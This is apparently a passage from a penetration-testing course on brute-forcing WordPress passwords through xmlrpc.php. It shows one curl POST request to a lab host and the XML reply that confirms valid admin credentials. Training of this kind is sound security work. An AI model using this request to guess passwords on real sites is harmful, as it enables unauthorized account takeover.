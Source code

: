 ## Table of Contents

      - [cURL - POST Request](#cURL\-\POST\Request)

Once we are armed with a list of valid users, we can mount a password brute-forcing attack to attempt to gain access to the WordPress backend. This attack can be performed via the login page or the `xmlrpc.php` page.

If our POST request against `xmlrpc.php` contains valid credentials, we will receive the following output:

#### cURL - POST Request

```shell
gdxqpardo@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```





















